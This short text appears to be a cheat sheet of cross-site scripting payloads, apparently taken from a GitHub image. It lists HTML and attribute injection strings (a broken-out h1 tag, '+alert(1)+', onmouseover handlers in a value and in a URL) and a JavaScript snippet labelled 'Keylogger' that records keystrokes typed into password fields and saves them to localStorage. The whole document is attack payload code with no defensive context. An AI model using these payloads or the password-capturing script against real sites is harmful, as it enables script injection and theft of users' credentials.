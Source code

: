 
```html
"><h1>test</h1>
```

```html
'+alert(1)+
'```

```html
"onmouseover="alert(1)
```

```
http://"onmouseover="alert(1)
```  

Keylogger

```javascript
t=""; $('input[type="password"]').onkeypress = function (e) { t+=e.key; console.log(t); localStorage.setItem("pw", t); } 
```